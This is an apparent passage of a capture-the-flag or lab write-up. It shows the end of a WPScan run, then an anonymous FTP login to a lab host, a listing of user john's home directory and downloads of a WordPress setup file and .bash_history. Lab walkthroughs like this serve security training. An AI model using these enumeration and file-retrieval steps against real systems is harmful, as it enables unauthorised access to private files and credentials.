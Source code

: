 [!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at <https://wpscan.com/register>

[+] Finished: Sat Feb 15 15:36:47 2025
[+] Requests Done: 109150
[+] Cached Requests: 13
[+] Data Sent: 29.515 MB
[+] Data Received: 14.722 MB
[+] Memory used: 545.891 MB
[+] Elapsed time: 00:01:54

# 4. FTP Enumeration
[!bash!]$ ftp 10.129.12.10 21

Connected to 10.129.12.10.
220 ProFTPD Server (Debian) [10.129.12.10]
Name (10.129.12.10:pwnbox): anonymous

331 Anonymous login ok, send your complete email address as your password
Password: anonymous

230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -al

229 Entering Extended Passive Mode (|||42851|)
150 Opening ASCII mode data connection for file list
drwxr-x---   4 john     john         4096 Feb 16 17:28 .
drwxr-x---   4 john     john         4096 Feb 16 17:28 ..
-rw-------   1 john     john         1153 Feb 15 21:13 .bash_history
-rw-r--r--   1 john     john          220 Jan  6  2022 .bash_logout
-rw-r--r--   1 john     john         3771 Jan  6  2022 .bashrc
drwx------   2 john     john         4096 Feb 15 17:16 .cache
-rw-------   1 john     john           20 Feb 16 16:34 .lesshst
-rw-r--r--   1 john     john          807 Jan  6  2022 .profile
drwxrwxr-x   2 john     john         4096 Feb 12 13:55 .ssh
-rw-r--r--   1 john     john            0 Feb 11 10:18 .sudo_as_admin_successful
-rw-------   1 john     john        17094 Feb 15 22:14 .viminfo
-rw-rw-r--   1 john     john          964 Feb 15 22:14 WordPress_Blog_Setup_Update.txt
226 Transfer complete

ftp> get WordPress_Blog_Setup_Update.txt

local: WordPress_Blog_Setup_Update.txt remote: WordPress_Blog_Setup_Update.txt
229 Entering Extended Passive Mode (|||12725|)
150 Opening BINARY mode data connection for WordPress_Blog_Setup_Update.txt (964 bytes)
100% |**********************************************|   964       14.97 KiB/s    00:00 ETA
226 Transfer complete
964 bytes received in 00:00 (7.92 KiB/s)

ftp> get .bash_history
